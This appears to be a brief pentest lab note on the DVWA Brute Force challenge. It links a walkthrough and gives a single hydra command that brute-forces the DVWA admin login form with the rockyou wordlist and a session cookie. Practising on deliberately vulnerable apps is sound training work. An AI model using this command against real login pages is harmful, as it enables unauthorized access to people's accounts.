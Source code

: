 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Low / Medium
https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2001:%20Brute%20Force.md

```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=5r9mcj6pgqd910hrlr6l4is0tk"
```
